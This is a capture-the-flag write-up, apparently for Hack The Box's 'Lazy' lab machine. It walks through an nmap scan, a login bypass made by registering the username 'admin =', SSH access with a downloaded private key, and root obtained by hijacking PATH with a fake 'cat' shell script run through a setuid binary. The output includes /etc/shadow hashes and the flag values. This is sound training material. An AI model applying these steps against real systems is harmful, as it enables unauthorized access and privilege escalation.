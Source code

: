 # Lazy
#### 10.10.10.18

```{r, engine='bash', count_lines}
nmap -sS -sV 10.10.10.18

Nmap scan report for 10.10.10.18
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.48 seconds

```


Website directs us to devcompany's page
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/Website.PNG "Website")

**To start, you will need to create a user register and then log in to check this company's projects and potential.**

Tried some basic SQL Injections on the login page but nada.
So, lets create a testuser
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/testuserlogin.PNG "testuserlogin")



After creating a user, there is something peculiar
Once the user is registered, it automatically logs us in as that user.
Lets try and create a user with the name admin

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/adminalreadyexists.PNG "adminalreadyexists")

So admin already exists...
Maybe if we can trick the login form into thinking we have created the admin user, it should automatically log us into admin

Lets try and play with the username input field
So the user we create will be
```
admin =
```
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/loginwithadmin.PNG "loginwithadmin")

And we are IN!!
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/adminpage.PNG "adminpage")


There is a ssh key which we can download


![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/sshkey.PNG "sshkey")

Something important to note in the key page is the highlighted field. Thats the user the key is for
So we save the key in a file called mistos.key
Change its permissions to 600
```
root@kali:~/Hackthebox/Machines/Lazy# wget http://10.10.10.18/mysshkeywithnamemitsos
--2017-10-15 11:36:53--  http://10.10.10.18/mysshkeywithnamemitsos
Connecting to 10.10.10.18:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1679 (1.6K)
Saving to: ‘mysshkeywithnamemitsos’

mysshkeywithnamemitsos                      100%[===========================================================================================>]   1.64K  --.-KB/s    in 0s      

2017-10-15 11:36:53 (75.3 MB/s) - ‘mysshkeywithnamemitsos’ saved [1679/1679]

root@kali:~/Hackthebox/Machines/Lazy# mv mysshkeywithnamemitsos mitsos.key
root@kali:~/Hackthebox/Machines/Lazy# chmod 600 mitsos.key 
```

And we connect to mitsos
```
root@kali:~/Hackthebox/Machines/Lazy# ssh -i mitsos.key mitsos@10.10.10.18
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Oct 15 11:29:36 EEST 2017

  System load:  0.0               Processes:           178
  Usage of /:   7.6% of 18.58GB   Users logged in:     0
  Memory usage: 12%               IP address for eth0: 10.10.10.18
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Sun Oct 15 11:29:36 2017 from 10.10.15.189
mitsos@LazyClown:~$ 
```

**user.txt**
```
mitsos@LazyClown:~$ cat user.txt
d558e7924bdfe31266ec96b007dc63fc
```

**Priv Esc**

```
mitsos@LazyClown:~$ ls -l
total 20
-rwsrwsr-x 1 root   root   7303 May  3 00:02 backup
drwxrwxr-x 4 mitsos mitsos 4096 May  2 18:41 peda
-rw------- 1 root   root     33 Oct 15 04:54 tmp.txt
-rw------- 1 mitsos mitsos   33 May  3 18:52 user.txt
```

There is a executable named backup
When we try and run it, it gives something like this
```
mitsos@LazyClown:~$ ./backup 
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17288:0:99999:7:::
landscape:*:17288:0:99999:7:::
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
sshd:*:17288:0:99999:7:::
```

Lets run a strings on it

```
mitsos@LazyClown:~$ strings backup 
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
system
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
[^_]
cat /etc/shadow
;*2$"
...
...
...
```

So its a simple exec which runs the command "cat /etc/shadow" and it is run by root
This is perfect for priv esc!

Our path contains
```
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

What we can do is create a executable with the name cat in our home directory and add the our home directory to our $PATH
Lets start by addint the $PATH first
```
mitsos@LazyClown:~$ export PATH="/home/mitsos:$PATH"
mitsos@LazyClown:~$ echo $PATH
/home/mitsos:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Now we need to create a cat executable.
We can create a bash script which will spawn a bash shell
Something as simple as
```
#!/bin/sh

/bin/sh
```

```
mitsos@LazyClown:~$ vim cat
mitsos@LazyClown:~$ chmod 777 cat
mitsos@LazyClown:~$ ls -l
total 24
-rwsrwsr-x 1 root   root   7303 May  3 00:02 backup
-rwxrwxrwx 1 mitsos mitsos   19 Oct 15 23:00 cat
drwxrwxr-x 4 mitsos mitsos 4096 May  2 18:41 peda
-rw------- 1 root   root     33 Oct 15 04:54 tmp.txt
-rw------- 1 mitsos mitsos   33 May  3 18:52 user.txt
```

We run "backup" now and it should pawn this lazy banana

```
mitsos@LazyClown:~$ ./backup 
# id
uid=1000(mitsos) gid=1000(mitsos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(mitsos)
```
Remember, the cat command wont work now. So to use it we have to call it directly from /bin/cat

**root.txt**
```
/binn/cat /root/root.txt
990b142c3cefd46a5e7d61f678d45515
```
